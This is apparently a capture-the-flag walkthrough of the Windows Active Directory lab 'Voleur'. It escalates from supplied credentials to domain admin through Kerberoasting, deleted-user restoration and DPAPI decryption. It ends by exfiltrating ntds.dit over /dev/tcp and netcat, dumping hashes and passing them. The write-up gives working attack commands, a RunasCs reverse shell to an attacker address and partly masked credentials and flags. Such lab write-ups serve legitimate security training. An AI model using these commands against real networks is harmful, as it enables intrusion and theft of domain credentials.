## Voleur

```
Difficulty: Medium
Operating System: Windows
Hints: True
```
### Initial Foothold
The penetration test begins with the provided credentials for the user ryan.naylor and the password HollowOct31Nyt. The first step is to perform reconnaissance and establish a working environment.

#### Nmap Scan: A port scan reveals the following key services:

53/tcp (DNS): Simple DNS Plus

88/tcp (Kerberos): Microsoft Windows Kerberos

135/tcp (msrpc): Microsoft Windows RPC

389/tcp (LDAP): Active Directory LDAP

445/tcp (SMB): Microsoft Windows netbios-ssn

2222/tcp (SSH): OpenSSH 8.2p1 Ubuntu

5985/tcp (HTTP): Microsoft HTTPAPI (WinRM)

Environment Setup: To ensure Kerberos functions correctly, the domain controller dc.voleur.htb is added to /etc/hosts and the system time is synchronized with the target.

Bash
```
# Add to /etc/hosts
10.10.11.76 dc.voleur.htb
```
```
# Synchronize time
ntpdate voleur.htb
```
Kerberos TGT Acquisition: The impacket-getTGT tool is used to request a Kerberos Ticket-Granting Ticket (TGT) for ryan.naylor, which is saved to a .ccache file. This ticket is then exported as the primary authentication method.

Bash
```
impacket-getTGT voleur.htb/'ryan.naylor':'HollowOct31Nyt'
export KRB5CCNAME=/home/kali/Voleur/ryan.naylor.ccache
```
Initial Enumeration with nxc: The Kerberos ticket allows for authentication and basic enumeration with nxc (NetExec).

Bash
```
nxc ldap voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
```
# ... successfully authenticates ...
```
nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
```

Information Gathering and First Privilege Escalation Path
The initial foothold provides an opportunity for deeper enumeration to find a path for privilege escalation.

Bloodhound Analysis: The bloodhound-python tool is used to collect Active Directory data.

Bash
```
bloodhound-python -u ryan.naylor -p HollowOct31Nyt -k -ns 10.10.11.76 -c All -d voleur.htb --zip
```



This shows that ryan.naylor has no direct power but is a member of a "special group."



SMB Share Enumeration: A detailed enumeration of SMB shares reveals several interesting directories.

Bash
```
NetExec smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
```
This command reveals the IT share, which is readable.

File Discovery in IT Share: Using impacket-smbclient, the IT share is explored. A directory First-Line Support contains an Excel file named Access_Review.xlsx.

**Overview**



The file is downloaded.

The file is password-protected.

A brute-force attack successfully cracks the password: foo.......

Credential Leakage: The contents of the Excel file are a significant find. It contains a list of users and their passwords:

Todd Wolfe (deleted): Nigh......3on14

svc_ldap: M1.......qT5Vn

svc_iis: N5.......Z8

### Privilege Escalation (Part 1) - Targeted Kerberoasting

**Overview**



Using the svc_ldap credentials, a new attack vector is identified.

Re-authentication: A new TGT is obtained for svc_ldap.

Bash
```
impacket-getTGT voleur.htb/'svc_ldap':'M1XXXXX7qT5Vn'
export KRB5CCNAME=/home/kali/Voleur/svc_ldap.ccache
```
Targeted Kerberoast: It is discovered that svc_ldap has GenericWrite permission on lacey.miller and WriteSPN on svc_winrm. The targetedKerberoast.py script is executed to request service tickets.

Bash
```
python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```
This dumps the Kerberos tickets for lacey.miller and svc_winrm. The ticket for svc_winrm is successfully cracked, yielding its password (which is not explicitly stated in the log but is a crucial step).

WinRM Access: The newly acquired credentials for svc_winrm are used to establish a session via WinRM.


Bash
```
evil-winrm -i dc.voleur.htb -u svc_winrm -p '<cracked_password>'
```



### Privilege Escalation (Part 2) - Restoring a Deleted User
Inside the WinRM session, the tester discovers that the svc_ldap account belongs to the RESTORE_USERS group, suggesting a path to restore deleted user accounts.



User Impersonation: To leverage the RESTORE_USERS group's permissions, the svc_ldap user is impersonated from the svc_winrm session using RunasCs.exe.

Bash
```
upload /home/kali/Voleur/RunasCs.exe
.\RunasCS.exe svc_ldap M1XyC...qT5Vn powershell.exe -r 10.10.xx.xxx6666
```
This provides a shell as svc_ldap.

User Restoration: From this shell, the Get-ADObject and Restore-ADObject cmdlets are used to find and restore the previously deleted Todd Wolfe user.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
Get-ADObject -Filter 'isDeleted -eq $true -and Name -like "*Todd Wolfe*"' -IncludeDeletedObjects | Restore-ADObject
```
DPAPI Key Retrieval: Re-enumerating SMB shares reveals a new directory structure for Second-Line Support and Archived Users. Inside todd.wolfe's archived profile, DPAPI-encrypted files are found:

08949382-XXXX-4c63-b93c-ce52efc0aa88 (Master Key)

772275FAD58XXXXX3490A9B0039791D3 (Credential file)



DPAPI Decryption: Using impacket-dpapi, the master key and credential file are decrypted with Todd Wolfe's password (Nig........3on14).

Bash
```
impacket-dpapi masterkey -file <master_key_file> -sid <sid> -password 'Night.....P1dg3on14'
impacket-dpapi credential -file <credential_file> -key <decrypted_master_key>
```
This process successfully extracts new credentials: jeremy.combs with the password qT3V.....7W4m.



### Privilege Escalation (Part 3) - SSH Access and Final Credential Dump

With the new jeremy.combs credentials, a final push is made to compromise the domain.

SSH Key Discovery: The jeremy.combs account's permissions are used to re-enumerate SMB shares. A new directory, Third-Line Support, is found with two files: id_rsa and Note.txt.txt.

id_rsa is an SSH private key.

Note.txt.txt indicates that the key is for the svc_backup user and is related to WSL (Windows Subsystem for Linux).

SSH Login: The private key is used to connect to the SSH server on port 2222 as svc_backup.


Bash
```
chmod 600 id_rsa

ssh -i id_rsa svc_backup@voleur.htb -p 2222
```
NTDS and SYSTEM File Exfiltration: Inside the SSH session, the C drive is mounted at /mnt/c. The svc_backup user has access to a Backups/Active Directory directory within C:\IT\Third-Line Support. This directory contains the critical ntds.dit and SYSTEM files. These files are exfiltrated using netcat.



Bash

```
# On the target
cat ntds.dit > /dev/tcp/10.10.16.48/8888
cat SYSTEM > /dev/tcp/10.10.16.48/8888
# On the attacker machine
nc -lvnp 8888 > ntds.dit
nc -lvnp 8888 > SYSTEM
```

Final Hash Dump: The exfiltrated ntds.dit and SYSTEM files are used with impacket-secretsdump on the local machine to dump all domain credentials, including the NTLM hashes for all users and the krbtgt account.

Bash
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM local
impacket-getTGT voleur.htb/'administrator' -hashes ':e656e07c5XXXXXXXXXXXXXXXXXXX'
export KRB5CCNAME=/home/XXXXXXXXXXXx/ctf_OpenVPN/administrator.ccache
```


**add that configuration to the Kerberos configuration file:**

bash

Open the file with root permissions:

bash
```
sudo nano /etc/krb5.conf
```
Replace or update the content like this:

```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    VOLEUR.HTB = {
        kdc = dc.voleur.htb
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```


This final command provides the highest level of access and completes the penetration test.



```
evil-winrm -i dc.voleur.htb -k administrator.ccache -r voleur.htb 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: Useless cert/s provided, SSL is not enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls


    Directory: C:\Users\Administrator\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/30/2025   6:20 AM                WindowsPowerShell
-a----          5/7/2025   4:57 PM            108 cleanup.ps1


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   1:12 AM           2308 Microsoft Edge.lnk
-ar---          8/1/2025  11:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
5edXXXXXXXXXXXXXXXXXXff688f
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd C:\Users\
*Evil-WinRM* PS C:\Users> ls
                                                                                                                                                              
                                                                                                                                                              
    Directory: C:\Users                                                                                                                                       
                                                                                                                                                              
                                                                                                                                                              
Mode                 LastWriteTime         Length Name                                                                                                        
----                 -------------         ------ ----                                                                                                        
d-----          6/5/2025   3:30 PM                Administrator                                                                                               
d-----         1/29/2025   7:11 AM                jeremy.combs
d-r---         1/28/2025  12:35 PM                Public
d-----         1/30/2025   3:39 AM                svc_bxxxxxxx
d-----         1/29/2025   4:47 AM                svc_lxxx
d-----         1/29/2025   7:07 AM                svc_wxxxx
d-----         1/29/2025   4:53 AM                todd.wolfe


*Evil-WinRM* PS C:\Users> cd svc_wxxxx
*Evil-WinRM* PS C:\Users\svc_wxxxx> ls


    Directory: C:\Users\svc_wxxx


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         1/29/2025   7:07 AM                3D Objects
d-r---         1/29/2025   7:07 AM                Contacts
d-r---         1/31/2025   1:55 AM                Desktop
d-r---          8/2/2025   5:42 AM                Documents
d-r---         1/29/2025   7:07 AM                Downloads
d-r---         1/29/2025   7:07 AM                Favorites
d-r---         1/29/2025   7:07 AM                Links
d-r---         1/29/2025   7:07 AM                Music
d-r---         1/29/2025   7:07 AM                Pictures
d-r---         1/29/2025   7:07 AM                Saved Games
d-r---         1/29/2025   7:07 AM                Searches
d-r---         1/29/2025   7:07 AM                Videos


*Evil-WinRM* PS C:\Users\svc_wixxxx> cd Desktop
*Evil-WinRM* PS C:\Users\svc_wixxxx\Desktop> ls


    Directory: C:\Users\svc_winrm\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   7:07 AM           2312 Microsoft Edge.lnk
-ar---          8/1/2025  11:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_xxxxx\Desktop> cat user.txt
e94XXXXXXXXXXXXXXXXXXXXXXXXXXXX0144
*Evil-WinRM* PS C:\Users\svc_wxxxx\Desktop> 


```


#### 🏁 Summary of Attack Chain
```
| Step | User / Access | Technique Used | Result |
|---|---|---|---|
| 1 | ryan.naylor | Nmap, ntpdate, impacket-getTGT, nxc | Initial access to Active Directory services via Kerberos. Confirmed successful authentication with provided credentials. |
| 2 | ryan.naylor | NetExec, impacket-smbclient, brute-force | Enumerated SMB shares, discovered a file `Access_Review.xlsx` on the `IT` share. Cracked the password (`fo..........1`) and found credentials for `svc_ldap`, `svc_iis`, and `Todd Wolfe`. |
| 3 | svc_ldap | impacket-getTGT, targetedKerberoast.py | Gained access to `svc_winrm`'s hashed password by exploiting `WriteSPN` and performing targeted Kerberoasting. |
| 4 | svc_winrm | Evil-WinRM, RunasCs, Get-ADObject, Restore-ADObject | Logged in via WinRM. Impersonated `svc_ldap` to restore the deleted user `Todd Wolfe`. |
| 5 | Todd Wolfe | impacket-smbclient, impacket-dpapi | Gained access to `Todd Wolfe`'s archived profile on a new SMB share. Decrypted DPAPI credentials using his password (`Nig............14`) to discover `jeremy.combs`'s credentials. |
| 6 | jeremy.combs | impacket-smbclient, ssh | Found the `Third-Line Support` SMB share. Downloaded `id_rsa` and a note revealing the key was for `svc_backup`. Used the key to log in via SSH on port 2222. |
| 7 | svc_backup | netcat, impacket-secretsdump | Exfiltrated `ntds.dit` and `SYSTEM` files from a mounted C drive backup. Used these files to perform an offline hash dump of all domain users, including the `Administrator`. |
```

**Pwned! Voleur**